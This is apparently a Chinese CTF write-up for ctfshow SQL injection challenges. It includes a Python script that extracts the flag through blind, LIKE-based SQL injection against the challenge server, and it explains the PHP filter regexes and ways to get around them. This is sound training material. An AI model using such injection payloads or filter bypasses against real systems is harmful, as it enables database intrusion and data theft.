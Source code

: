 

<img src="https://i-blog.csdnimg.cn/blog_migrate/8b9a4af8aca7c80b8936fb783f946080.png" alt="" style="max-height:201px; box-sizing:content-box;" />


payload出来了 那么这么繁琐的内容 肯定就交给脚本咯

```cobol
import string
 
import requests
 
url = "http://742f4f44-a736-424b-aa24-09424fc4210f.challenge.ctf.show/select-waf.php"
 
payload = "(ctfshow_user)where(pass)like'ctfshow{0}"
flag = ''
for i in range(0,100):
    for j in '0123456789abcdefghijklmnopqrstuvwxyz-{}':
        payload1= payload.format(flag+j)+"%'"
        data = {'tableName':payload1}
        re = requests.post(url=url,data=data)
        if "$user_count = 1;" in re.text:
            flag +=j
            print("ctfshow"+flag)
```

这里就可以获取到flag 是通过like的匹配这里

这里我们最好解读一下正则

```lisp
return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
```

首先就是过滤了很多符号防止绕过空格的过滤 其次过滤了 # 防止注释

or = select 也全部被过滤 并且增加了 /i 防止大小写绕过

## web184 过滤了where 通过下面的方法绕过

首先解读正则

```bash
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i',
```

和上面差不多 并且过滤了 where  union 单引号 双引号 内联 sleep

过滤更加严格了

但是放出了空格

我们如何读取内容呢

这里我们可以使用两个方式

regexp和like
